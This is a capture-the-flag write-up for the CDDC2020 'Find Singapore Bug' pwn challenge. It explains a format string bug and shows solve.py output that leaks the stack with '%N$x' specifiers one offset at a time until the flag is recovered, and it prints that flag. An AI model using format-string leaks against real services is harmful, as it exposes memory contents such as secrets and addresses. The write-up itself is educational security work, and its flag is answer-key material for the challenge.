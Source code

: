 # [Pwn (Linux)-3] Find Singapore Bug
Pwn

## Challenge 

Let's FSB!

fsb.chall.cddc2020.nshc.sg 30303

## Solution

FSB stands for Format String Bug.

If we do "%1$x", we get the hex string at offset 1. Repeat with increasing offsets until we leak the entire string.

	python3 solve.py 
	444443e0
	Progress: 1 b'\xe0CDD'
	7b303243
	Progress: 2 b'\xe0CDDC20{'
	41414141
	Progress: 3 b'\xe0CDDC20{AAAA'
	42424242
	Progress: 4 b'\xe0CDDC20{AAAABBBB'
	7e684f2d
	Progress: 5 b'\xe0CDDC20{AAAABBBB-Oh~'
	4c756f59
	Progress: 6 b'\xe0CDDC20{AAAABBBB-Oh~YouL'
	656b6165
	Progress: 7 b'\xe0CDDC20{AAAABBBB-Oh~YouLeake'
	2d744964
	Progress: 8 b'\xe0CDDC20{AAAABBBB-Oh~YouLeakedIt-'
	43434343
	Progress: 9 b'\xe0CDDC20{AAAABBBB-Oh~YouLeakedIt-CCCC'
	44444444
	Progress: 10 b'\xe0CDDC20{AAAABBBB-Oh~YouLeakedIt-CCCCDDDD'
	3131257d
	Progress: 11 b'\xe0CDDC20{AAAABBBB-Oh~YouLeakedIt-CCCCDDDD}%11'
	ff007824
	Progress: 12 b'\xe0CDDC20{AAAABBBB-Oh~YouLeakedIt-CCCCDDDD}%11$x\x00\xff'
	ffa8aa1c
	Progress: 13 b'\xe0CDDC20{AAAABBBB-Oh~YouLeakedIt-CCCCDDDD}%11$x\x00\xff\x1c\xaa\xa8\xff'
	565cc3c1
	Progress: 14 b'\xe0CDDC20{AAAABBBB-Oh~YouLeakedIt-CCCCDDDD}%11$x\x00\xff\x1c\xaa\xa8\xff\xc1\xc3\\V'
	f7f512d0
	Progress: 15 b'\xe0CDDC20{AAAABBBB-Oh~YouLeakedIt-CCCCDDDD}%11$x\x00\xff\x1c\xaa\xa8\xff\xc1\xc3\\V\xd0\x12\xf5\xf7'
	0

## Flag

	CDDC20{AAAABBBB-Oh~YouLeakedIt-CCCCDDDD}
